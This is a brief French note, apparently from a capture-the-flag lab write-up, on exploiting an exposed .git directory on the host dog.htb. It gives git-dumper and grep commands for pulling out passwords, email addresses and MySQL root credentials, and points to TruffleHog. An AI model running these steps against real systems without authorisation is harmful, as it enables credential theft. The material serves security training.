 
Si répertoire .git découvert

Le télécharger et utiliser TruffleHog pour chasser les identifiants

https://github.com/trufflesecurity/truffleHog?tab=readme-ov-file

> [!TIP]
> Attention au système de fichiers (NTFS tout ça tout ça)


Télécharger avec git-dumper

```
git-dumper http://dog.htb/.git ./dog-git
cd dog-git
```

Rechercher des identifiants

```
grep -ri 'pass'
```

adresse mail

```
grep -ri '@dog.htb'
```

identifiants sql

```
grep -ri "mysql://root"
```

